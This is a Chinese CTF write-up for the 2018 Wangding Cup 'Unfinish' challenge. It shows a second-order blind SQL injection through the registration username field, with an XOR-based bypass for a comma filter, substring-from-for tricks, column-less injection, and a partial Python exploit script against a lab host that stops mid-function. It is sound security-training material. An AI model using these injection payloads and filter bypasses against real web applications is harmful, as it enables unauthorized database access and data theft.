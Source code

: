 ## [网鼎杯2018]Unfinish

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211022014767.png)

register.php

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211022014811.png)

登录后会显示用户名

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211022015015.png)

猜测存在二次注入

注册时在 email 处试了好久都不行, 后来才发现是 username

```sql
email=aaa@qq.com&username=1'^(case when length(database())>0 then sleep(5) else 0 end)^'1&password=3
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211022016310.png)

因为过滤了逗号, 不太好直接闭合, 所以改成用异或连接, 例如

```sql
'1'^true^'1' # true
'1'^false^'1' # false
```

整个表达式的真假性与中间的表达式一致, 第一条在登录后会显示 1, 第二条显示 0

wp 中用的是 `+`, 原理都差不多

题目过滤了 `,`  考虑用 `substring(a from b for c)`

同时 `information_shema` 也被过滤了, 并且 mysql 版本为 `5.5.64` 无 sys 库, 也没有启用 innoDB

于是猜测表名为 flag, 然后绕过列名直接进行无列名注入, 列数试一试就出来了

```python
import requests
import random
import re
import time

url = 'http://f3fab6bd-8df8-48a5-9e05-36ba8a4a3234.node4.buuoj.cn:81'

def register(sql):
    payload = "1'^({})^'1".format(sql)
    email = str(random.random()) + '@qq.com',
    data = {
    'email': email,
    'username': payload,
    'password': '1'
    }
    res = requests.post(url + '/register.php', data=data)
    if res.status_code == '200':
        print('error')
        exit()
    return email

def login(email):
    data = {
    'email': email,
    'password': '1'
    }
    res = requests.post(url + '/login.php', data=data)
    code = int(re.findall(r'<span class="user-name">\n[ ]{1,}(.*?)[ ]{1,}<\/span>', res.text)[0])
```
